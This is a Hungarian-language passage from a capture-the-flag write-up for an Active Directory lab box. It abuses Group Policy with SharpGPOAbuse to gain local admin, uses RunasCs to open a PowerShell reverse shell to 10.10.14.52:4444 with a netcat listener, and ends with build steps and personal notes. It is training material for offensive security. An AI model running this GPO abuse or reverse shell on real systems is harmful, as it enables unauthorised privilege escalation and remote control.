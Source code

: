 ```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```

- Várj vagy **gpupdate /force** a célgépen

**Admin jog ellenőrzés:**

```
net localgroup administrators
```

---

## SYSTEM / root shell szerzés RunasCs-sel

**RunasCs exe-t saját magad buildeld le (lásd részletes folyamat a jegyzet végén)**

**Reverse shell payload (PowerShell):**

```powershell
.\RunasCs.exe 'M.schoolbus' '!suBc*****' powershell.exe -r 10.10.14.52:4444
```

- Netcat listener: `nc -lvnp 4444`
- Ha meterpreteres shell kell, msfvenommal gyárts payloadot, azt indítsd RunasCs-sel

**Root.txt megszerzése:**

```
type C:\Users\Administrator\Desktop\root.txt
```

---

# **Bónusz: saját RunasCs.exe build Windows alatt (gyors workflow)**

1. Töltsd le a forrást: [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)
2. Windows-on telepítsd a Visual Studio Build Tools-t (csak .NET build kell)
3. Nyisd meg a "Developer Command Prompt for VS"-t
4. Navigálj a RunasCs mappába, majd:
   ```cmd
   msbuild /p:Configuration=Release
   ```
5. Az exe itt lesz: `bin\Release\RunasCs.exe`
6. Másold át pendrive-ra, vagy dobj fel GitHub privát repóba, aztán Linuxról szedd le

---

# **Saját jegyzetek, tapasztalatok (röviden, casual stílusban):**

- **Kurva sokat szívtam a shell-lel:** meterpreter session többször meghalt, de netcattel mindig bejött
- **GPO refreshen múlik minden**: admin chain csak frissítés után lép életbe
- **RunasCs buildelése Windows alatt kötelező** (nincs trusted prebuild, mindig magadnak buildeld)
- **PowerShell reverse shell, netcattel stabilabb mint meterpreterrel**
- **Pro workflow:** mindig több shell típust próbálj, ne csak msfconsole!
- **Türelemjáték**: 6+ óra, de minden perc tanított valamit (privesc, chain, build, Windows internals)

---